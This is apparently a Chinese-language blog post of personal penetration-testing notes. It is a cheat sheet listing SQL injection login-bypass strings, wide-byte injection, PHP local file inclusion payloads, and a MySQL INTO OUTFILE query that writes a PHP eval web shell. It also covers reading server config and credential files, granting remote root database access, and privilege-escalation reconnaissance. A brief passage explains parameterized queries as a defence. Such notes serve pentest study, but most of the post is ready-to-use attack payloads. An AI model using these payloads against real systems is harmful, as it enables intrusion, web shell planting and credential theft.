 ```yaml
---
layout: post
title:  渗透测试碎碎念
category: security
tags: [渗透测试碎碎念]
keywords: 渗透测试碎碎念
description: 渗透测试碎碎念
---  
```


## 渗透测试碎碎念  
渗透过程中一些知识点备忘：  

- 00截断适用于白名单绕过，但一定要程序代码有截断漏洞，所以不一定白名单都可以绕过  
- nginx php解析漏洞 xxx.jpg/xxx.php  xxx.jpg%00.php 
- Linux 提权：1.查看系统信息 `lsb_release -a  uname -a`   
2.找exp  
- PHP的流  `http://192.168.160.13/index.php?url=zip:///var/www/html/upload/0e9982a96ad4cac58adb1a6e74e52aa2.zip%23yijuhua`    
zip文件中的内容：`<?php  _GET[a](_GET[b]);?>`   
- 登录的万能密码：  

		admin' or '1'='  
		admin'#  
		') or('a'='a  

- PHP 默认magic_quotes_gpc打开，转义单引号、双引号，php SQL注入容易出出现在整数型注入  
防范SQL注入，预编译prepare=参数化查询、过滤关键字  
那为什么它这样处理就能预防SQL注入提高安全性呢？其实是因为SQL语句在程序运行前已经进行了预编译，在程序运行时第一次操作数据库之前，SQL语句已经被数据库分析，编译和优化，对应的执行计划也会缓存下来并允许数据库已参数化的形式进行查询，当运行时动态地把参数传给PreprareStatement时，即使参数里有敏感字符如 or '1=1'也数据库会作为一个参数一个字段的属性值来处理而不会作为一个SQL指令，如此，就起到了SQL注入的作用了！  
- 宽字节注入  
举个例子，假设/1 .php?id=1里面的id参数存在宽字节注人漏洞，当提交/1 .php?id=-1’ and 1=1%23时，MySQL运行的SQL语句为：  

    select * from user where id='1\' and 1=1#'   

很明显这是没有注人成功的，我们提交的单引号被转义导致没有闭合前面的单引号，但是我们提交/1 .php?id=-1%df' and 1=1%23时，这时候MySQL运行的 SQL语句为：  


	select * from user where id='1運' and 1=1#'  

这是由于单引号被自动转义成\'，前面的%df和转义字符\反斜杠（%5c)组合成 了%df%5c，也就是“運”字，这时候单引号依然还在，于是成功闭合了前面的单引号。  
 
- 本地文件包含  

1.1 截断类型：php %00截断  

截断条件：  

php版本小于5.3.4   
php的magic_quotes_gpc为OFF状态  

1.2 文件路径长度截断  
系统文件路径长度限制：  

windows 259个bytes  
linux 4096个bytes  
php版本为5.3.4以下（具体哪个版本不是很清楚，乌云上kukki写的5.2.8以下，这明显是不对的，因为我测试用的5.2.9）  
GPC是否开启没关系  

php://input包含:在allow_url_include为On的情况下可用，不受版本限制  

    http://127.0.0.1/test.php?file=php://input  
    <?php phpinfo();?>  


data:流  

    http://127.0.0.1/test.php?file=data://text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pgo=  

在allow_url_include为On的情况下可用  


    php://filter/read=convert.base64-encode/resource=   

方法读取源码:基本都能用，路径被限制则失败  

- ereg有两个漏洞  

%00截断及遇到%00则默认为字符串的结束  

当ntf为数组时它的返回值不是FALSE  

- mysql 写入一句话木马  

    http://127.0.0.1/sqllib/Less-7/?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\yijuhua.php"--+    

- find / -name index.php  查找网站路径  
- select '一句话' into outfile 'path'  
- select load_file('path') 读取文件  
- mysql>system 系统命令  
- phpmyadmin 2.11.b 2.11.4 存在万能密码  
- 获取绝对路径：  1.报错；  
2.找配置文件：   
 
		c:\windows\php.ini  
		c:\windows\system32\inetsrv\MetaBase.xml  
		select 1,load_file('c:\\windows\\system32\\inetsrv\\MetaBase.xml')  
		/etc/php.ini  
		/etc/httpd/conf.d/php.conf  
		/etc/httpd/conf/httpd.conf  
		/usr/local/apache/conf/httpd.conf  
		/usr/local/apache2/conf/httpd.conf  
		system vi /etc/httpd/conf/httpd.conf  

搜索 path  

- 获取mysql用户名密码  
配置文件：conn、config、data、sql、common、inc  
查看数据库安装路径下mysql文件 /data/mysql/user.myd  
cmd5破解（*开头）  

- 菜刀数据库管理可以配置数据库，连接数据库，mysql开启root允许远程连接：  
 
    GRANT ALL PRIVILEGES ON *.* TO root@"%" IDENTIFIED BY "root";  
    flush privileges;   

- 寻找服务端口  

    tasklist /svc  
    netstat -ano  











		


